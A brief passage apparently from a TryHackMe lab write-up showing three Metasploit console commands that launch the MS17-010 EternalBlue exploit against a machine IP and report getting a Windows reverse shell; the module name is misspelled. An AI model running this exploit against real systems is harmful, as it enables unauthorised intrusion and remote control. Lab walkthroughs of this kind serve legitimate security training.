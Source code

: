 ![MS-017-010](/assets/images/THM/2020-08-07-rp-ps-empire/2.png)

Or, you can follow my way.

```
msf > use exploit/windows/smb/ms17_010_ethernalblue
msf > set RHOSTS <MACHINE IP>
msf > exploit
```

After a few seconds, you will be prompt with windows reverse shell.

![shell success](/assets/images/THM/2020-08-07-rp-ps-empire/3.png)
